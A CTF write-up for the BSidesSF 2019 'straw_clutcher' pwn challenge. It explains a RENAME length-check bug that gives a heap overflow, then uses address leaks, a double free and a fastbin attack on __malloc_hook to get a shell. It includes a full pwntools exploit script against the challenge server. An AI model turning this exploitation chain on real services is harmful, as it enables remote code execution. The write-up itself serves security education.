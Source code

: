 # BSidesSF 2019 CTF

## straw_clutcher

## Information

**Category** | **Points** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 400 | 4 | [merrychap](https://github.com/merrychap)

**Description:** 

> Location - straw-clutcher-717c5694.challenges.bsidessf.net:4321

**Files:**

[straw-clutcher](./straw-clutcher)

## General information

The binary was really crazy for pwn challenge :D

There are a lot of code, but if you spend enough time on it, then it wouldn't be a problem to find the bug. But first things first.

## Reversing the binary

<p align="center">
  <img src="screens/beginning.png">
</p>

So, there is a global buffer for user input which is allocated on a heap. After we input data, it's compared in some obfuscated way with characters. I will not cover reverse part here, because it's not very complicated and you can do it by your own. Most of the code here is different input validations, so this is not very interesting

The binary is kinda file transfer server and there are several actions we can produce (all "files" are memory structures and not the "real" files):

- `PUT [FILENAME] [FILE SIZE]` - creates a file with the specified filename and size. After this, we read data into the created file.

- `RENAME [OLD FILENAME] [NEW FILENAME]` - rename a file

- `DELE [FILENAME]` - delete specified file. It also frees the data that were allocated for this file

- `RETR [FILNAME]` - print file's data

- `TRUNC [FILENAME] [NEW SIZE]` - truncates the size of a specified file.

Okay, you can play now with the server to understand the functionality more deeply.

By the way, files are basically linked-list and each file has a pointer to the previous file structure. Hence, when it iterates through the files, it starts with the last one and goes up to the first.

## Vulnerability

After looking around the code searching for the vuln I found some interesting place in `RENAME` function:

<p align="center">
  <img src="screens/vuln.png">
</p>

First of all, we check `old_name` length and force it can't be longer than `0x1f`. And then the same for `new_name`, but... We check `old_name` again instead of `new_name` length. That's the vuln - __heap overflow__.

Now, let's explore the file structure (I suppose everything should be clear):

```c
struct file_t {
    char filename[0x20];
    unsigned long file_size;
    char *data;
    long dummy; /* it's not used as I understood */
    struct file_t *prev_file;
};
```

So, by overflowing filename we can overwrite `file_size` and `data` pointer. 


## Leaking addresses

First of all, we want to leak some addresses, so let's start with `file_size`. By writing some big number into `file_size` and then calling `RETR` we can leak everything on the heap below the current chunk. Libc address can be leaked by creating unsorted bin chunk below the target chunk and heap addresses can be leaked by just creating some new file below the target. Cool, we have `libc` and `heap` addresses.

## Spawning the shell

I forgot to say that there are some constraints on the filename, namely, `[A-Za-z0-9]+.[A-Za-z0-9]{3}` or something like this.

My main target was overwriting `__malloc_hook` with `one_gadget`, so we need to achieve fastbin attack. To do this, double free will be the best choice. When we delete a file something like this happens:

```c
free(file->data);
free(file);
```

So we can try to create a fake chunk `fake_file` where `fake_file->data` will point to some freed chunk with `0x70` size. Hence, it's double free and fastbin attack can be performed.

Let's consider some `file` structure. To create a fake chunk we can overwrite lsb of `file->prev_file` to point to `file->data` which we control without any constraints. To do this, we need that lsb of `file->data` will satisfy constraints on a filename.

If everything is okay, then we can produce typical fastbin attack with overwriting `__malloc_hook`.

## Exploit

The final exploit is as follows (I added some comments to make it more readable):

```python
from pwn import *


def main():
    libc = ELF('./libc-2.23.so')
    pc = remote('straw-clutcher-717c5694.challenges.bsidessf.net', 4321)

    pc.sendline('PUT AAA.EXE 10')
    pc.send('A' * 10)

    pc.sendline('RENAME AAA.EXE BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.sendline('PUT CCC.EXE 128')
    pc.send('C' * 128)
    pc.sendline('PUT DDD.EXE 10')
    pc.send('D' * 10)

    pc.sendline('DELE CCC.EXE')

    # overwriting file->file_size with 0x4141
    pc.sendline('RETR BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.recvuntil('200 File download started. Prepare to get 16705 bytes')
    data = pc.recvuntil('Data transferred!')
    good_slice = data[100:209]
    
    libc_base = u64(good_slice[-24:-16]) - 0x3c4b78
    __malloc_hook = libc_base + libc.symbols['__malloc_hook']
    __free_hook = libc_base + libc.symbols['__free_hook']
    heap = u64(good_slice[-48:-40])

    log.success('libc base @ ' + hex(libc_base))
    log.success('heap @ ' + hex(heap))
    log.success('__free_hook @ ' + hex(__free_hook))
    log.success('__malloc_hook @ ' + hex(__malloc_hook))

    #################################################
    #################################################

    # creating a fake file structure chunk
    pc.sendline('PUT EEE.EXE {}'.format(0x48))
    pc.send(p64(0x4848482e484848) + p64(0) * 4 + p64(0x68) + \
        p64(heap + 0x250) + p64(0) + p64(heap + 0x190)) # -0x23

    
    # make two freed 0x70 chunks
    pc.sendline('PUT TTT.TTT {}'.format(0x68))
    pc.send('T' * 0x68)
    pc.sendline('PUT KKK.KKK {}'.format(0x68))
    pc.send('K' * 0x68)
    pc.sendline('DELE TTT.TTT')
    pc.sendline('DELE KKK.KKK')

    # overwrite lsb of file->prev_file
    pc.sendline('RENAME EEE.EXE ' + 'E' * 7*8 + 'EEEEE.EXP')
    
    # and clear already freed 0x70 chunk
    pc.sendline('DELE HHH.HHH')

    pc.sendline('PUT LLL.LLL {}'.format(0x68))
    pc.send(p64(__malloc_hook - 0x13) + 'K' * 0x60)
    pc.sendline('PUT MMM.MMM {}'.format(0x68))
    pc.send('M' * 0x68)
    pc.sendline('PUT NNN.NNN {}'.format(0x68))
    pc.send('N' * 0x68)

    one_gadget = 0x4526a

    # allocate file->data above of __malloc_hook
    # and write one_gadget into this
    pc.sendline('PUT OOO.OOO {}'.format(0x68))
    pc.send('AAA' + p64(libc_base + one_gadget) + 'O' * (0x60-3))

    # trigger malloc
    pc.sendline('PUT JJJ.JJJ 8')

    pc.interactive()


if __name__ == '__main__':
    main()
```

After running this exploit we've got:

<p align="center">
  <img src="screens/final_shell.png">
</p>

> Flag: CTF{hoisting_the_flag}

Flag is not really interesting, but the challenge was pretty good!